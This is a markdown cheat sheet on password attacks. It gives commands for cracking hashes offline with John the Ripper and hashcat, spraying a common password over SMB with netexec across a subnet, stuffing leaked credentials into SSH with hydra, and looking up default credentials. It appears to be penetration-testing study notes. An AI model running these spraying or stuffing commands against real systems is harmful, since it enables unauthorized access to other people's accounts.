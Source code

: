 ```yaml
---
title: Password Attacks
tags: [hash, password, cracking]
tools: ['john', 'hashcat', 'hasid', 'netexec', 'hydra']
---
```


# General Password Cracking

## John The Ripper

### Single crack mode

`Single crack mode` is a rule-based cracking technique that  is most useful when targeting Linux credentials. It generates password  candidates based on the victim's username.

```bash
# Use -n to trim /n - Alt use printf
echo -n r0lf:$6$ues25dIanlctrWxg$nZHVz2z4kCy1760Ee28M1xtHdGoy0C2cYzZ8l2sVa1kIa8K9gAcdBP.GI6ng/qA4oaMrgElZ1Cb9OeXO4Fvy3/:0:0:Rolf Sebastian:/home/r0lf:/bin/bash > passwd

john --single passwd
```

### Hash mode w/ wordlists

Find the hashing algorithm, attach a word list and crack

```bash
# use hashid to discover format
hashid -j 193069ceb0461e1d40d216e32c79c704

# Output to file
echo -n 193069ceb0461e1d40d216e32c79c704 > hash.txt

# Crack
john --wordlist=/usr/share/seclists/rockyou.txt --format=ripemd-128 hash.txt
```

## Hashcat

### General syntax

```shell-session
# Identify hashid, -m for hashcat
hashid -m '$1$FNr44XZC$wQxY6HHLrgrGX0e1195k.1'

# -a - attack mode | -m - hash type | <hashes> string or file
hashcat -a 0 -m 0 <hashes> [wordlist, rule, mask, ...]
```

### Attack modes

#### Dictionary attack

```bash
# Dictionary attack
hashcat -a 0 -m 0 e3e3ec5831ad5e7288241960e5d4fdb8 /usr/share/wordlists/rockyou.txt

# Dictionary attack with rules
hashcat -a 0 -m 0 1b0556a75770563578569ae21392630c /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

#### Mask attack

[Mask attack](https://hashcat.net/wiki/doku.php?id=mask_attack) (`-a 3`) is a type of brute-force attack in which the keyspace is explicitly  defined by the user. For example, if we know that a password is eight  characters long, rather than attempting every possible combination, we  might define a mask that tests combinations of six letters followed by  two numbers.

`hashcat -a 3 -m 0 1e293d6912d074c0fd15844d803400dd '?u?l?l?l?l?d?s'`

## Spraying, Stuffing, and Defaults

### Spraying windows:

```shell-session
netexec smb 10.100.38.0/24 -u <usernames.list> -p 'ChangeMe123!'
```

### SSH Stuffing:

Re-use creds from a different service | `username:password` credentials obtained from a database leak

```shell-session
hydra -C user_pass.list ssh://10.100.38.23
```

### Default Creds:

`````
pip3 install defaultcreds-cheat-sheet
creds search linksys
`````
